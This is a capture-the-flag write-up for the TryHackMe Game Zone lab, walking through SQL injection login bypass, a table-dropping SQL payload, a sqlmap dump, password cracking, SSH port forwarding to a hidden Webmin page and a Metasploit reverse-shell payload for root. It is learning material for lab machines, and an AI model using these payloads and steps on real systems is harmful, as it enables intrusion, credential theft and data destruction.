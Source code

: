 ```yaml
---
layout: default
title: Relevant
parent: TryHackMe
nav_order: 5
---
```


# Navigation Structure
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }


![](pictures/logo-gamezone.PNG)


- Task 1
- Task 2
- Task 3
- Task 4
- Task 5
- Task 6
{:toc}

## [](#header-2)Summary:

1. Use sql injection to obtain access through webportal
2. Use a sqlmap to extract hashed password3
3. Plug the hashed password into JohnTheRipper in order to crack it.
4. Access a blocked webpage running webmin via reverse ssh tunnel
5. Use exploit via metasploit on webmin page to escalate privileges


## [](#header-2)Task 1:

The first challenge was to perform a reverse image search on the cover of the website to see who the pictured character was.
![](pictures/pic-gamezone.png)

Which can be done with [reverse image search](https://www.reverseimagesearch.com/)

## [](#header-2)Task 2:
We find that our login portal is vulnerable to sql injection and try to exploit it.

The reason the below sql injection ' or 1=1 -- - works is because it essentially finishes the sql statement that the Log in: portion uses. 
![](pictures/sqli-gamezone.png)
```SQL
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

An example of a SQL injection that could prove dangerous is:

```SQL
'; DROP TABLE users; --'
```
This attack if inserted in our case would delete the users table altogether by cuting off the previous select statement and then continuing to execute DROP TABLE users; --' which deletes the users table. 

```SQL
SELECT * FROM users WHERE username = admin AND password := '; DROP TABLE users; --'
```




## [](#header-2)Task 3:
In the portion of the box we see a portal that has a search feature that can potentially be exploitable.

![](pictures/portal-gamezone.png)


First we'll be using burpsuite so that we can intercept the request in the search feature and pass it on to sqlmap to do our dirty work.



![](pictures/burp-gamezone.png)

Then we'll save this as a txt file “request.txt” and plug it into sqlmap with the following command:
```bash
sqlmap -r request.txt --dbms=mysql --dump
```
-r uses the request provided
--dbms specifies which database you are targeting 
--dump dumps the whole database

With sqlmap we are able to find some very interesting stuff including possible table input as well as hashed passwords.

![](pictures/sqlmap-gamezone.png)


## [](#header-2)Task 4:
From here we are going to crack the hash that we found from sqlmap with the opensource password cracker JohnTheRipper

To do this we will use the following command: 


![](pictures/john-gamezone.png)

Once our password is found we can proceed to ssh into the machine.

![](pictures/ssh-gamezone.png)


from here we find the user flag within the /home/agent47 directory

## [](#header-2)Task 5:

From here we use the ss tool to see what open sockets we have available 
```bash
ss -tulpn
```
provided is a list of the flags and their purposes:

![](pictures/flag-gamezone.png)

We then find we have 5 open TCP connections and 2 udp.

![](pictures/conn-gamezone.png)


From here we can use one of these connections to create a reverse ssh tunnel on another port with 
```bash
ssh -L 10000:localhost:10000 <username>@<ip>
```
Now we can have a tunnel from that port that was previously restricted on our localhost 



![](pictures/tun-gamezone.png)

Now we are able to access the page being hosted on that port within our local machine at localhost:10000

![](pictures/webmin-gamezone.png)


Logging in with our agent user crednetials we come to this web page which shows some version information that we can use to further exploit.

![](pictures/ver-gamezone.png)



## [](#header-2)Task 6:

In order to find a exploit for this application we can search

![](pictures/sploit-gamezone.png)

From here we use the following options once we get into our target module

options
set rhosts localhost
set username <username>
set password <password>
set ssl false
set lhost tun0
show payloads
set payload cmd/unix/reverse
run


![](pictures/root-gamezone.png)

And we get root!

## [](#header-2)Conclusion:

Even though this room was more of a walkthrough, I did find that I learned useful information on sql injections as well as reverse ssh tunnels.
